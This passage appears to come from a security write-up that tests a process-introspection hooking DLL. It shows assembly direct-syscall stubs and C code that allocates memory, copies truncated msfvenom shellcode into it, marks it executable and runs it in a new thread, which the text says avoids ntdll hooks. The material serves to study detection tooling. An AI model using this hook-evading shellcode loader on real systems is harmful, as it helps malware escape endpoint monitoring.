 	syscall
	ret
ProtVirtMem ENDP

CreThreE PROC
	mov r10, rcx
	mov eax, 0C1h ; SYSCALL number for NtCreateThreadEx
	syscall
	ret
CreThreE ENDP
_TEXT ENDS
END
{% endhighlight %}


{% highlight c %}
#include "syscall.h"
void ThisIsNotAnEntryPoint(void)
{
	DbgPrint("Custom Entrypoint ThisIsNotAnEntryPoint NOPSLED DEMO\n");
	// msfvenom calc.exe thread based shellcode
	unsigned char pload[] = {0xfc,0x48,0x83,0xe4/*[...SNIP...]*/,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
	size_t pload_size = sizeof(pload);
	
	HANDLE ph = NtCurrentProcess();
	void * ba = NULL;
	NTSTATUS SysAllocateReturn = AlloeVirtMem(ph, &ba, 0, &pload_size, MEM_COMMIT |MEM_RESERVE, PAGE_READWRITE);
	DbgPrint("SysAllocateReturn\t%x\n", SysAllocateReturn);
	
	my_memmove(ba, (void*)pload, 276);
	DbgPrint("ba 0x%p", ba);
	
	ULONG nprt = PAGE_EXECUTE_READ;
	ULONG oprt = 0;
	NTSTATUS SysNtProtectReturn = ProtVirtMem(ph, &ba, &pload_size, nprt, &oprt);
	DbgPrint("SysNtProtectReturn\t%x\n", SysNtProtectReturn);
	
	HANDLE th = NULL;
	NTSTATUS SysNtCreateReturn = CreThreE(&th, GENERIC_EXECUTE, NULL, ph, ba, NULL,FALSE, 0, 0, 0, NULL);
	DbgPrint("SysNtCreateReturn\t%x\n", SysNtCreateReturn);
	
	DbgPrint("END");
	//WaitForSingleObject(th, -1); 	// to actually wait infinitely we need to link with kernel32, 
									// or be bothered to use ntapi equiv
}
{% endhighlight %}

As this PE is not importing functions from ntdll which will be hooked by the introspection DLL within the process, the PE using these syscall stubs will go unnoticed however a log file for the process will be created.

A breakpoint is put on the final call to CreateProcessInternalW in order to facilitate stepping through each stage of the introspection during execution shows the processes that go on behind the scenes.
	1. Introspection DLL gets force loaded into the process
	2. The DLL PROCESS ATTACH reason for call is passed to the DLL
	3. The log file based on PID and executable name is created.
	4. A range of Win32 hooks are applied successfully
	5. The syscall64d.exe binary carries out it’s thread based shellcode execution
	6. The breakpoint set on CreateProcessInternalW which is called by the msfvenom shellcode is hit

